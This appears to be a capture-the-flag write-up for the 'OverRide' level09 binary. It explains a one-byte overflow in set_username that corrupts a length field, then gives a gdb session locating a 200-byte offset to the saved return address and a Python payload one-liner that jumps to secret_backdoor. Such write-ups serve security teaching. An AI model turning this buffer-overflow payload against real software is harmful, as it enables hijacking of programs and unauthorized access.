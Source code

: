 This binary has 3 important functions :  
`set_message`, `set_username`, `secret_backdoor`  
and a data structure :  
```C
typedef struct s_message {
    char text[140];      // offset 0x00
    char username[40];   // offset 0x8c
    int len;             // offset 0xb4
} t_message;
```

The vulnerability lies in the setup of the the username since the function `set_username` writes 1 byte more than it should. This write over the value of len meaning we can manipulate the value of len to make believe `set_message` that the message is longer than what it really is and be able to overwrite the EIP if the start of its address is located 248 bytes or less after the beginning of our buffer.

To find the offset to overwrite the RIP :
```C
level09@OverRide:~$ gdb level09 
(gdb) b handle_msg 
Breakpoint 1 at 0x8c4
(gdb) r
Starting program: /home/users/level09/level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------

Breakpoint 1, 0x00005555555548c4 in handle_msg ()
(gdb) info frame
Stack level 0, frame at 0x7fffffffe5e0:
 rip = 0x5555555548c4 in handle_msg; saved rip 0x555555554abd
 called by frame at 0x7fffffffe5f0
 Arglist at 0x7fffffffe5d0, args: 
 Locals at 0x7fffffffe5d0, Previous frame's sp is 0x7fffffffe5e0
 Saved registers:
  rbp at 0x7fffffffe5d0, rip at 0x7fffffffe5d8
(gdb) p 0x7fffffffe5d0 - 0xc0
$1 = 140737488348432
(gdb) x/x 0x7fffffffe5d0 - 0xc0
0x7fffffffe510:	0x0000000a
(gdb) p/x $rbp
$2 = 0x7fffffffe5d0
(gdb) p 0x7fffffffe5d8 - 0x7fffffffe510
$3 = 200
```

So we know that we need to write the address of `secret_backdoor` at offset 200.

payload :  
`( python -c 'print("A"*40 + "\xff")'; python -c 'print("B"*200 + "\x8c\x48\x55\x55\x55\x55\x00\x00")'; cat ) | ./level09`